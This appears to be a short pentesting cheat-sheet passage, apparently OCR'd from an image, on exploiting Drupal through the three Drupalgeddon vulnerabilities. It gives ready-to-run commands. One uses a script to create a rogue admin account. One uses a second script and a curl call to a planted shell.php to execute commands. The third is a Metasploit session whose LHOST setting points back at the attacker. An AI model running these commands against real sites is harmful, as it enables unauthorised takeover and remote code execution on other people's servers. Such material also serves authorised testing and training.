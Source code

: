 Affects versions 7.0 up to 7.31 (CVE-2014-3704)

This vulnerability will create a new admin account
````
$ python2.7 drupalgeddon.py -t http://<domain> -u hacker -p pwnd

Once an admin user is added, we could log in and enable the PHP Filter module to achieve remote code execution. 
````
**Drupalgeddon2**

Affects versions of Drupal prior to 7.58 and 8.5.1 (CVE-2018-7600)
````
$ python3 drupalgeddon2.py
$ curl http://<domain>/shell.php?cmd=id
````
**Drupalgeddon3**

Affects multiple versions of Drupal 7.x and 8.x (CVE-2018-7602)

It requires a user to have the ability to delete a node
````
Metasploit
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts <Server-IP>
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST <domain>   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session <Drupal_Session>
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST <Our_IP>
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
msf6 exploit(multi/http/drupal_drupageddon3) > run
````
